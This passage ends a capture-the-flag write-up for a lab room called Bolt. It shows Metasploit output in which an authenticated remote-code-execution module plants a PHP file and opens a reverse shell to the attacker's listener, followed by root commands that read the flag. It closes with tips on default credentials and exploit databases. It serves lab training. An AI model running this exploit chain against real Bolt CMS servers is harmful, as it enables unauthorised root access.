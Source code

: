 ```
msf5 exploit(unix/webapp/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on 10.8.91.135:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "qqaq".
[*] Found 3 potential token(s) for creating .php files.
[+] Deleted file jquscnny.php.
[+] Used token 657413b1d8e8b23c0fd47f76e8 to create vitopjnc.php.
[*] Attempting to execute the payload via "/files/vitopjnc.php?qqaq=`payload`"
[*] Command shell session 1 opened (10.8.91.135:4444 -> 10.10.59.229:39618) at 2020-08-30 15:51:24 +0530
[!] No response, may have executed a blocking payload!
[+] Deleted file vitopjnc.php.
[+] Reverted user profile back to original state.

whoami
root
find / -name flag.txt 2> /dev/null
/home/flag.txt
cat /home/flag.txt
```

It can be seen that we logged in directly as the `root`. Also, we can use the `find` command to search for the flag and then submit it to the final question.

With this we completed the room Bolt!

## Some Key Points to Take Away

1. Whenever exploiting a service, always read it's documentation for default paths and credentials.
2. Use Google, ExploitDB, AttackerKB, Rapid7 and other such websites to look for related CVE's.

